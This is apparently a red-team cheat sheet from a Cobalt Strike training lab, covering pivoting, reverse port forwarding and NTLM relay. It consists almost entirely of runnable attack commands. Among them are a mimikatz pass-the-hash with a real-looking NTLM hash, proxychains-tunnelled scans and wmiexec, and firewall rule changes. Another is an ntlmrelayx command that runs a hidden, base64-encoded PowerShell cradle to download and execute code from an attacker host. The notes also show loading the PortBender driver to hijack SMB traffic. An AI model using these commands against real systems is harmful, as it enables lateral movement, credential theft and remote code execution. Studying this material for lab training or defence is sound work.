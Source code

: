 # Pivoting

# Enable Socks Proxy in beacon session (Use SOCKS 5 for better OPSEC)

    beacon> socks 1080 socks5 disableNoAuth socks_user socks_password enableLogging

# Verify the SOCKS proxy on team server

    attacker@ubuntu ~> sudo ss -lpnt

# Configure Proxychains in Linux

    $ sudo vim /etc/proxychains.conf
    socks5 127.0.0.1 1080 socks_user socks_password

    $attacker@ubuntu ~> proxychains nmap -n -Pn -sT -p445,3389,4444,5985 10.10.122.10
    ubuntu@DESKTOP-3BSK7NO ~ > proxychains wmiexec.py DEV/jking@10.10.122.30

# Use Proxifier for Windows environment 

    ps> runas /netonly /user:dev/bfarmer mmc.exe
    ps> mimikatz # privilege::debug
    ps> mimikatz # sekurlsa::pth /domain:DEV /user:bfarmer /ntlm:4ea24377a53e67e78b2bd853974420fc /run:mmc.exe
    PS C:\Users\Attacker> $cred = Get-Credential
    PS C:\Users\Attacker> Get-ADComputer -Server 10.10.122.10 -Filter * -Credential $cred | select

# Use FoxyProxy plugin to access Webportal via SOCKS Proxy

# Reverse Port Forward (if teamserver is not directly accessible, then use rportfwd to redirect traffic)

    beacon> rportfwd 8080 127.0.0.1 80
    beacon> run netstat -anp tcp
    ps> iwr -Uri http://wkstn-2:8080/a

    beacon> powershell New-NetFirewallRule -DisplayName "Test Rule" -Profile Domain -Direction Inbound -Action Allow -Protocol TCP -LocalPort 8080
    beacon> powershell Remove-NetFirewallRule -DisplayName "Test Rule"

# NTLM Relay

1. Setup SOCKS Proxy on the beacon

        beacon> socks 1080 socks5 disableNoAuth socks_user socks_password enableLogging

2. Setup Proxychains to use this proxy

        $ sudo vim /etc/proxychains.conf
        socks5 127.0.0.1 1080 socks_user socks_password

3. Use Proxychain to send NTLMRelay traffic to beacon targeting DC and encoded SMB Payload for execution

        $ sudo proxychains ntlmrelayx.py -t smb://10.10.122.10 -smb2support --no-http-server --no-wcf-server -c 'powershell -nop -w hidden -enc aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAiAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQAyADMALgAxADAAMgA6ADgAMAA4ADAALwBiACIAKQA='

# Encoded command: iex (new-object net.webclient).downloadstring("http://10.10.123.102:8080/b")

4. Setup reverse port forwarding 

        beacon> rportfwd 8080 127.0.0.1 80
        beacon> rportfwd 8445 127.0.0.1 445

5. Upload PortBender driver and load its .cna file

        beacon> cd C:\Windows\system32\drivers
        beacon> upload C:\Tools\PortBender\WinDivert64.sys
        beacon> PortBender redirect 445 8445

6. Manually try to access share on our system or use MSPRN, Printspooler to force authentication

7. Verify the access in weblog and use link command to connect with SMB beacon

        beacon> link dc-2.dev.cyberbotic.io TSVCPIPE-81180acb-0512-44d7-81fd-fbfea25fff10
